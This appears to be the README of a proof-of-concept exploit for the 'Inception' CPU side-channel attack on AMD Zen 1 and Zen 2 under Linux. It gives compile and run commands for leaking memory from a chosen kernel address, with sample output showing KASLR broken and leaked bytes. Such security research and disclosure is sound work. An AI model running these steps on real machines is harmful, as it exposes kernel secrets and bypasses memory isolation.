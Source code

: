 This folder contains the PoC exploit of Inception for AMD Zen 1, Zen 1+ and Zen 2, all running Linux kernel 5.19.0-28-generic.

1. Compile inception.c. Pass two cores on the same physical core. Define any of ('ZEN', 'ZEN2'). For example:

clang -DZEN2 -DCORE1=1 -DCORE2=9 inception.c -o inception

2. Also compile a workload for the sibling hyperthread:

clang -DSET=33 workload.c -o workload

Changing SET (0 - 1023) can sometimes improve the performance of the exploit. 

3. Lastly, run ./inception, and pass a kernel address from which you want to leak:

./inception <INSERT KERNEL ADDRESS>

The results are printed to stdout and are also stored in data.bin.
Before running, make sure transparent hugepages are enabled, since we rely on this feature for
more robust eviction sets (not a strict requirement of Inception).

Optional: The kmod in ./kmod can be installed to get an example kernel address from which we can leak:

cd ../kmod; make install; dmesg | tail -n 10; cd ../zen_1_2

When leaking from the provided kmod, the output of Inception should look something like this:

.........
Text: 0xffffffffaa000000
.................................
Phys: 0x172c00000
.....................
Physmap: 0xffff925700000000
Took 5 seconds to break KASLR
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
